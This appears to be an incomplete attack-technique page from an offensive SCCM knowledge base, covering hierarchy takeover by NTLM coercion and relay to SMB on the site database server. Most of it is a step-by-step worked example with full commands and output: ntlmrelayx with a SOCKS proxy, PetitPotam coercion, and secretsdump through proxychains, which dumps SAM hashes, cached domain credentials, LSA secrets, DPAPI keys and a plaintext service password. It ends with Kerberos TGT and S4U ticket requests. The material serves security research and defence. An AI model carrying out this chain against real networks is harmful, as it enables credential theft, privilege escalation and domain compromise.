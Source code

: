 # TAKEOVER-2

## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote site database

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
-
-

## Summary

## Impact

## Subtechniques
- TAKEOVER-2.1: Coerce primary site server
- TAKEOVER-2.2: Coerce passive site server

## Defensive IDs
- [PREVENT-1: Patch SCCM Site Server with KB15599094](../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)

## Examples
The steps to execute TAKEOVER-2.1 and TAKEOVER-2.2 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the site database server:


### Windows
1. 


### Linux
1. Start `ntlmrelayx` with a SOCKS proxy
```
# impacket-ntlmrelayx -smb2support -ts -ip 192.168.57.130 -t 192.168.57.31 -socks
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-03-01 12:51:57] [*] Protocol Client MSSQL loaded..
[2024-03-01 12:51:57] [*] Protocol Client LDAPS loaded..
[2024-03-01 12:51:57] [*] Protocol Client LDAP loaded..
[2024-03-01 12:51:57] [*] Protocol Client RPC loaded..
[2024-03-01 12:51:57] [*] Protocol Client HTTP loaded..
[2024-03-01 12:51:57] [*] Protocol Client HTTPS loaded..
[2024-03-01 12:51:57] [*] Protocol Client IMAPS loaded..
[2024-03-01 12:51:57] [*] Protocol Client IMAP loaded..
[2024-03-01 12:51:57] [*] Protocol Client SMTP loaded..
[2024-03-01 12:51:57] [*] Protocol Client SMB loaded..
[2024-03-01 12:51:57] [*] Protocol Client DCSYNC loaded..
[2024-03-01 12:51:58] [*] Running in relay mode to single host
[2024-03-01 12:51:58] [*] SOCKS proxy started. Listening at port 1080
[2024-03-01 12:51:58] [*] HTTPS Socks Plugin loaded..
[2024-03-01 12:51:58] [*] HTTP Socks Plugin loaded..
[2024-03-01 12:51:58] [*] MSSQL Socks Plugin loaded..
[2024-03-01 12:51:58] [*] IMAP Socks Plugin loaded..
[2024-03-01 12:51:58] [*] SMB Socks Plugin loaded..
[2024-03-01 12:51:58] [*] SMTP Socks Plugin loaded..
[2024-03-01 12:51:58] [*] IMAPS Socks Plugin loaded..
[2024-03-01 12:51:58] [*] Setting up SMB Server
[2024-03-01 12:51:58] [*] Setting up HTTP Server on port 80
[2024-03-01 12:51:58] [*] Setting up WCF Server
[2024-03-01 12:51:58] [*] Setting up RAW Server on port 6666
```

2. Coerce auth

```
# python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p P@ssw0rd 192.168.57.130 192.168.57.50 

Trying pipe lsarpc
[-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

3. Receive connection on relay server

```
[2024-03-01 12:53:19] [*] SMBD-Thread-11 (process_request_thread): Received connection from 192.168.57.50, attacking target smb://192.168.57.31
[2024-03-01 12:53:19] [*] Authenticating against smb://192.168.57.31 as MAYYHEM/SITE-SERVER$ SUCCEED
[2024-03-01 12:53:19] [*] SOCKS: Adding MAYYHEM/SITE-SERVER$@192.168.57.31(445) to active SOCKS connection. Enjoy
[2024-03-01 12:53:19] [*] SMBD-Thread-12 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
[2024-03-01 12:53:19] [*] SMBD-Thread-13 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
[2024-03-01 12:53:19] [*] SMBD-Thread-14 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
[2024-03-01 12:53:19] [*] SMBD-Thread-15 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!

ntlmrelayx> socks
Protocol  Target         Username              AdminStatus  Port 
--------  -------------  --------------------  -----------  ----
SMB       192.168.57.31  MAYYHEM/SITE-SERVER$  TRUE         445 
```

4. Proxy in secretsdump

```
# proxychains impacket-secretsdump MAYYHEM/SITE-SERVER\$@192.168.57.31
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.57.31:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc572147b3e06ec7f803013a6a063b524
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2b073c86868014e813942f6a91c031bd:::
[*] Dumping cached domain logon information (domain/username:hash)
MAYYHEM.LOCAL/sccmadmin:$DCC2$10240#sccmadmin#9c5f6da0aea59713bb5f5dc02c638b48: (2024-02-29 18:49:56)
MAYYHEM.LOCAL/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42: (2024-02-24 18:21:18)
MAYYHEM.LOCAL/sqlsvc:$DCC2$10240#sqlsvc#e12866f9a8777ddbe39ae1380ac6346c: (2024-03-01 17:23:29)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MAYYHEM\SITE3-DB$:aes256-cts-hmac-sha1-96:007976468ea0315075ce15a87f4c53d84fb3ad113076f362ec9dc0f79281ba03
MAYYHEM\SITE3-DB$:aes128-cts-hmac-sha1-96:2d8e3cd4527e138dc7b575e411bb3068
MAYYHEM\SITE3-DB$:des-cbc-md5:83f1c8c46ead7ca4
MAYYHEM\SITE3-DB$:plain_password_hex:6100690040005a0044005100330033006e0059005a006a002c00530057006f002b0070005d00410020002500470052005100720045006d00630037006d00610066002600590074003e0058006d00780058005100740073003a0043002b0070003a004b0079006f0046004b0036004100330072007a002c0041003600320023002900550068002900630058007a004a006e002d0070004c005e006c0066004f003c006000470048005a00320068002b005a0061007800670040004700750040003500250061006f004600240028004400780025002e00730048005c003f0024006a003000710074004f0071007a006d00
MAYYHEM\SITE3-DB$:aad3b435b51404eeaad3b435b51404ee:1eca4d3eef64b6aaf28ed0a528afbaf0:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xf4704cc00adfc198ca52f755a535d43c42054a44
dpapi_userkey:0x09f0ba58ff1d4b67d7d24bf126ff33e682b57fcf
[*] NL$KM 
 0000   29 78 85 64 E8 D8 57 5E  62 0F 15 6D 78 D3 C3 BD   )x.d..W^b..mx...
 0010   D1 11 71 D7 E1 D6 75 B5  F3 90 9B AD 3E C7 07 6E   ..q...u.....>..n
 0020   C4 EE 9C DC 2E 43 E7 C3  9A 2E 98 5B A3 7B 8E E1   .....C.....[.{..
 0030   72 8F 2B A0 4A 4D BE D0  AB CB 42 A7 61 E5 B0 C1   r.+.JM....B.a...
NL$KM:29788564e8d8575e620f156d78d3c3bdd11171d7e1d675b5f3909bad3ec7076ec4ee9cdc2e43e7c39a2e985ba37b8ee1728f2ba04a4dbed0abcb42a761e5b0c1
[*] _SC_MSSQLSERVER 
MAYYHEM\sqlsvc:P@ssw0rd
[*] _SC_SQLSERVERAGENT 
MAYYHEM\sqlsvc:P@ssw0rd
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

5. Get TGT for SQL service account running the site database

```
# impacket-getTGT MAYYHEM/sqlsvc:P@ssw0rd                                  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in sqlsvc.ccache

```

6. S4U

```
# python3 gets4uticket.py kerberos+ccache://mayyhem.local\\sqlsvc:sqlsvc.ccache@dc.mayyhem.local MSSQLSvc/SITE3-DB.MAYYHEM.LOCAL:1433@mayyhem.local site-server@mayyhem.local s4u.ccache -v
```



## References
Author, Title, URL